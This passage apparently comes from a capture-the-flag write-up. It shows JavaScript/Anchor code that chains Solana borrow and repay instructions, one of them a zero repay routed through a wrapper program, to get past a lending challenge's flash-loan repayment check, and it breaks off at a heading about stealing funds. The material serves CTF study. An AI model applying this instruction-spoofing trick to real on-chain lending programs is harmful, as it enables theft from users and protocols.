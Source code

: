 ```
program.instruction.borrow(new BN(1), {
    accounts: {
        player: player.publicKey,
        state: new anchor.web3.PublicKey(accounts.state),
        pool: new anchor.web3.PublicKey(accounts.pool),
        poolAccount: new anchor.web3.PublicKey(accounts.poolAccount),
        depositorAccount: playerAtom,
        instructions: anchor.web3.SYSVAR_INSTRUCTIONS_PUBKEY,
        tokenProgram: spl.TOKEN_PROGRAM_ID,
    }
}),
// Repay 0
wrapperProgram.instruction.repay({
    accounts: {
        player: player.publicKey,
        user: player.publicKey,
        state: new anchor.web3.PublicKey(accounts.state),
        pool: new anchor.web3.PublicKey(accounts.pool),
        poolAccount: new anchor.web3.PublicKey(accounts.poolAccount),
        depositorAccount: playerAtom,
        tokenProgram: spl.TOKEN_PROGRAM_ID,
        challenge3Program: new anchor.web3.PublicKey(accounts.programId),
    }
}),
// Borrow 1
program.instruction.borrow(new BN(1), {
    accounts: {
        player: player.publicKey,
        state: new anchor.web3.PublicKey(accounts.state),
        pool: new anchor.web3.PublicKey(accounts.pool),
        poolAccount: new anchor.web3.PublicKey(accounts.poolAccount),
        depositorAccount: playerAtom,
        instructions: anchor.web3.SYSVAR_INSTRUCTIONS_PUBKEY,
        tokenProgram: spl.TOKEN_PROGRAM_ID,
    }
}),
// Repay 1
program.instruction.repay(new BN(1), {
    accounts: {
        player: player.publicKey,
        user: player.publicKey,
        state: new anchor.web3.PublicKey(accounts.state),
        pool: new anchor.web3.PublicKey(accounts.pool),
        poolAccount: new anchor.web3.PublicKey(accounts.poolAccount),
        depositorAccount: playerAtom,
        tokenProgram: spl.TOKEN_PROGRAM_ID,
    }
}),
```

## [](https://hackmd.io/@theori/r1gnaGNks#Stealing-Sats "Stealing-Sats")Stealing Sats
